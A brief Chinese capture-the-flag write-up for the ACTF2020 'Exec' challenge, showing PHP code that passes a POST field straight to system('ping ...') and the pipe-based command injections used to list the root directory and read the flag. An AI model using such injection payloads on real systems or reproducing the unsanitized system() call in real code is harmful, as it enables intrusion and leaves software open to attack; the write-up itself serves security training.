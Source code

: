 # [ACTF2020 新生赛]Exec

网页上可以输入一个IP进行PING操作并返回数据，应该是一道命令执行的题

尝试使用管道符执行多条命令

`target=127.0.0.1|cat index.php`
```php
<?php
if (isset($_POST['target'])) {
    system("ping -c 3 ".$_POST['target']);
}
?>
```

看来题目没有任何的过滤，直接查找flag，get flag
```html
target=127.0.0.1 | ls /
target=127.0.0.1 | cat /flag
```
